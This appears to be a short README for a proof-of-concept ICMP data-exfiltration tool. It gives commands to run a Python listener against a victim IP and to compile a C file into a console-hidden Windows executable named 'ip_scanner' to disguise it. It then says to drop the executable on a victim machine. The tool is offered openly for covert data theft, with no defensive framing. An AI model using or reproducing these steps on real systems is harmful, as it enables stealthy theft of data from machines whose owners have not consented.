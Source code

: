 # ICSDSimulation-POC
ICMP Exfiltration without creating any files or processes   
**Change the IP Address in the icmp_exfil.c before compiling**
## Listener
```
python2 listener.py source_ip victim_ip
```

## Victim
First compile
```
gcc icmp_exfil.c -o ip_scanner -mwindows
```
Then throw the exe on the victim machine
